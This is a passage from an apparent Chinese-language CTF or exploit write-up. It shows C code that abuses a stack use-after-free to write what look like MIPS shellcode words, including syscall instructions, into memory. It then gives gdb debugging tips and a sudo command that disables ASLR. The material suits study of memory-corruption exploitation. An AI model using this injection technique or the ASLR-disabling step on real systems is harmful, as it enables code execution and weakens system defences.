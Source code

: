 ```c
    mystk._8=0x00400f10;
    // 此时victim指针存储在寄存器中，但没有被修改，所以直接无效内容，不写回栈
    barrier();
    // 此时victim变量没有对应的寄存器，从栈上加载victim内容，即0x00400f10
    victim._0=0xafa50004;
    victim._4=0x001d2021;
    victim._8=0x34050000;
    victim._12=0x3402000d;

    mystk._8=0x00400f20;
    barrier();
    victim._0=0x0000000c;
    victim._4=0x00022021;
    victim._8=0x001d2821;
    victim._12=0x34060040;
    
    mystk._8=0x00400f30;
    barrier();
    victim._0=0x3402000e;
    victim._4=0x0000000c;
    victim._8=0x00023021;
    victim._12=0x34040001;

    mystk._8=0x00400f40;
    barrier();
    victim._0=0x3402000f;
    victim._4=0x0000000c;
    victim._8=0x3402000a;
    victim._12=0x0000000c;
    return 0;
}
int main(){
    overwrite(stack_uaf());
    return 0;
}
```

## 调试
### 调试技巧
为了查看脚本对内存的影响可以把 c 语言编译成 mpis 汇编然后看每一条汇编指针 

这里有一个调试的技巧就是把断点下到这里。  

![gdb](https://raw.githubusercontent.com/4ak5ra/image/main/gdb.png)

然后每次 c 过去就可以看到每条指令对内存的影响了。 
为了方便查看内存还可以把地址随机化完全关闭
```bash
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
```

